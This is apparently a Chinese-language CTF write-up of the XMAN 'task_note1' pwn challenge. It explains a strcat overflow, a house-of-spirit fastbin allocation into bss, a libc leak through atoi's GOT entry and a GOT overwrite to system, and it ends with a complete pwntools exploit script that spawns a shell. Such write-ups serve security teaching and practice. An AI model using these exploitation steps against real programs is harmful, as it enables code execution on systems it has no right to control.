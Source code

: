 ```yaml
---
title: Xman Task_note1
date: 2018-08-19 08:37:40
tags: [CTF, PWN]
categories: XMAN夏令营
---
```

# xman夏令营 task_note1

​	小伙伴扔给我这道题，看了下发现是个堆题。ida看了一下发现在edit函数中存在一个栈溢出，strcat的时候可以接0x90个字节，而dest空间只有0x80个字节，这里存在一个栈溢出，可以覆盖v7为任意值，但是其实很坑，程序内部有一个非常无耻的在字符串最后一个位置+'\x00'的操作，导致这里一直不能成功覆盖。后来看wp才知道strncat对不同偏移处碰到的0有多往后输入几个字字节的情况，但是我在本地18.04的环境下测试并没有成功，可能是libc的原因（待会换回16.04 //捂脸捂脸）。  
之后的利用思路就简单了，edit函数最后有一个free（v7）的操作，由于我们可以覆盖v7为任意值，这里我们将v7覆写为bss段存储堆指针所在的地址头，这样我们可以通过再次malloc进行一个arbitray malloc，达到任意地址malloc的结果。  
<!--more-->
	但是这里有个坑就是fastbin malloc的话要注意chunk size，这里虽然free了bss段指针，但是由于chunk size为空，所以直接malloc肯定过不了检查，然后我们看到前面，程序最开头有一个bss段的写操作，看read的字节数发现是肯定能够写到bss段存储堆的地址头之前两个单元（16字节）的位置，将size赋值为fastbin所在字节的话就能成功malloc chunk了，这种操作好像是叫the house of spirit。  
之后不出意外我们能够再bss段malloc一个chunk，然后由于是allocated chunk，我们能够改写fd和bk，这里将fd部分改写为atoi的got表地址，之后我们利用show函数泄露atoi真实地址，然后利用libc searcher查找到远端服务器所用libc版本。  
	做完这一切后利用edit函数中自带的strcpy函数覆写atoi为system，之后直接构造输入为/bin/sh就行了。之后就能get shell。

exp如下:

```
from pwn import *

p=process('./note')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def newnote(length,x):
    p.recvuntil('--->>')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(str(length))
    p.recvuntil(':')
    p.sendline(x)

def editnote_append(id,x):
    p.recvuntil('--->>')
    p.sendline('3')
    p.recvuntil('id')
    p.sendline(str(id))
    p.recvuntil('append')
    p.sendline('2')
    p.recvuntil(':')
    p.sendline(x)

def editnote_overwrite(id,x):
    p.recvuntil('--->>')
    p.sendline('3')
    p.recvuntil('id')
    p.sendline(str(id))
    p.recvuntil('append')
    p.sendline('1')
    p.recvuntil(':')
    p.sendline(x)

def shownote(id):
    p.recvuntil('--->>')
    p.sendline('2')
    p.recvuntil('id')
    p.sendline(str(id))


p.recvuntil('name:')
p.send('a'*0x30+p64(0)+p64(0x70))
p.recvuntil('address:')
p.sendline(p64(0)+p64(0x70))
#gdb.attach(p)

newnote(128,94*'a')
editnote_append(0,'b'*34+p64(0x602120))#ptr_addr

atoi_got = 0x602088
newnote(0x60,p64(atoi_got))

shownote(0)
p.recvuntil('is ')
atoi_addr = u64(p.recvline().strip('\n').ljust(8, '\x00'))
atoi_libc=libc.symbols['atoi']
sys_libc=libc.symbols['system']
system=atoi_addr-atoi_libc+sys_libc
print "system="+hex(system)

editnote_overwrite(0,p64(system)) #got written
#gdb.attach(p)
p.recvuntil('--->>')
p.sendline('/bin/sh')
p.interactive()

```

